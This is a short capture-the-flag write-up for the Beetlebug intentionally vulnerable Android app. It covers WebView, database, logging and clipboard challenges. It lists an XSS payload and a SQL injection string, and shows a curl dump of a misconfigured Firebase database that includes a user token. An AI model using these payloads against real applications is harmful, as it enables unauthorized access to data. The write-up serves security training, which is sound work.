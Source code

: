 In this part I will start with 
## WebViews tasks 
![image](https://github.com/user-attachments/assets/2a024a74-d7d2-4e1d-8486-33b0bdd7fe34)

### Java Script Code Injection 
In this task we should enter an xss payload . This link helps you to understand XSS 
 https://portswigger.net/burp/documentation/desktop/testing-workflow/input-validation/xss
and here is the payload
```Java
<script>alert('Hello, World!');</script>
```
## Insecure Database 
![image](https://github.com/user-attachments/assets/4b1ca7a6-a3e8-4040-8eb0-efe838d1e722)

### SQLi 
```SQL
random' OR 1 --
```
### Misconfig 
```Bash
PS C:\Users\mahdi>  curl https://beetlebug-374fc-default-rtdb.firebaseio.com/.json
{"Beetlebug":"Beetlebug is an open source insecure Android application with CTF challenges built for Mobile Pentesters, Bug Bounty Hunters and Developers.","admin":{"Exploit":"Successful","email":"test@gmail.cm","message":"hello","name":"user","website":"https://google.com"},"flag":"0x3365A10","hacker":{"Exploit":"Successful","email":"hacker@gmail.com","message":"hello hacker","name":"hacker@abc","website":"http://google.com"},"test":{"Exploit":"Successfull","email":"test@test.com","message":"test hack","name":"test","website":"test.com"},"testing1":{"-ODkTgQjJBr3iqyAt2Kd":{"cat":"meow","dog":"bowbow"}},"userId":1631721730509,"userToken":"cp__rEcAQnuIIxGKzJ5QVd:APA91bEJkYBRCmjCN0lAxOCZof5Tn75kB2O_6mcurklu6fcs6HKWx5LaSIS2TPIziQy5LSVAoP5bNevfwNvNMX9MG90kr5ppHnoWv9Kdbh309Sq13Lai_vtMuOk1AWAE1qKLnHCgTYo0"}
PS C:\Users\mahdi>
The flag is ""flag":"0x3365A10""
```
## Sensitive Info Disclosure 
![image](https://github.com/user-attachments/assets/515c3c2d-8c04-4f1f-ac84-5ba9f8c7c872)

## Insecure Logging 
after you enter a random data , you should focus on logs with this command 
```Bash
adb logcat
```
and finaly we get it 
![Capture d'écran 2025-01-15 184558](https://github.com/user-attachments/assets/c112bff7-5d2e-4db3-a519-0c8a5fd320fa)
## Clipboard Data 
After you enter any random data yo will get the flag 


![Capture d'écran 2025-01-15 185206](https://github.com/user-attachments/assets/9d8ac430-dc2e-4224-ab5d-cc54d943c661)

